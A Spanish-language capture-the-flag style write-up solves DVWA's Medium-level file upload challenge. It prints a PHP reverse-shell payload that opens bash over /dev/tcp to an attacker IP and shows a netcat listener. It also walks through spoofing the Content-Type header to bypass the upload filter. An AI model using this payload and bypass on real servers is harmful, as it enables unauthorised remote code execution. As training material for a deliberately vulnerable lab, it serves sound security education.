


# DVWA Writeup: File Upload

## 1. Introducción
La vulnerabilidad de **File Upload** (Subida de Archivos) ocurre cuando un servidor web permite a los usuarios subir archivos sin validar correctamente su contenido, extensión o tipo. 

Esto permite a un atacante subir un archivo ejecutable malicioso (como una *Web Shell* escrita en PHP) en lugar de una imagen o documento inofensivo. Una vez subido, si el atacante logra navegar hasta la ruta donde se guardó el archivo, el servidor ejecutará el código malicioso, lo que a menudo resulta en un compromiso total del sistema (Remote Code Execution - RCE).

---

## 2. Solución Nivel Medium

En este reto, la aplicación nos presenta un formulario para subir una imagen. 

### Análisis de la protección
Si intentamos subir un script PHP básico en el nivel *Medium*, la aplicación nos mostrará un error en rojo indicando que la imagen no fue subida y que "solo aceptan imágenes JPEG o PNG". 

A diferencia del nivel *Low* (que no valida nada) o el nivel *High* (que valida la firma o cabecera real del archivo), el nivel *Medium* simplemente comprueba el campo `Content-Type` de la petición HTTP que nuestro navegador envía al servidor al subir el archivo.

### Preparación del payload
Primero, creamos nuestro archivo malicioso llamado `rev.php`. Utilizaremos un script de *Reverse Shell* en PHP para que el servidor se conecte de vuelta a nuestra máquina atacante:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/192.168.1.173/9001 0>&1'");
?>
```

### Explotación (Bypass)
Para saltarnos el filtro del nivel medio, debemos engañar al servidor haciéndole creer que nuestro archivo `.php` es en realidad una imagen.

1. Seleccionamos nuestro archivo `rev.php` en el formulario y le damos a subir. Nos dará error.
2. Abrimos las **Herramientas de Desarrollador** de nuestro navegador (F12) y vamos a la pestaña **Network** (Red).
3. Buscamos la petición `POST` fallida, hacemos clic derecho y seleccionamos la opción para **Editar y reenviar** (Edit and Resend).
4. En el cuerpo (Body) de la petición, buscamos la parte correspondiente a nuestro archivo y cambiamos la cabecera `Content-Type` de nuestro script (que probablemente será `application/x-php` o similar) por un tipo de imagen válido: `Content-Type: image/jpeg`.



5. Enviamos esta petición modificada. El servidor confiará ciegamente en el `Content-Type` que le hemos indicado y guardará nuestro archivo PHP, devolviéndonos un código de estado `200 OK`.



### Ejecución de la Reverse Shell
Con nuestro archivo malicioso subido correctamente, solo nos queda ejecutarlo:

1. En nuestra máquina atacante (Kali), abrimos una terminal y ponemos a la escucha a Netcat en el puerto especificado en nuestro payload:
   `nc -lvnp 9001`
2. En el navegador, visitamos la URL directa donde el servidor guardó nuestro archivo: `http://localhost:4280/hackable/uploads/rev.php`.
3. La página se quedará cargando, pero en nuestra terminal de Kali recibiremos la conexión entrante. 

Al ejecutar el comando `whoami`, comprobamos que hemos obtenido acceso al servidor como el usuario `www-data`, completando el ataque de subida de archivos con éxito.

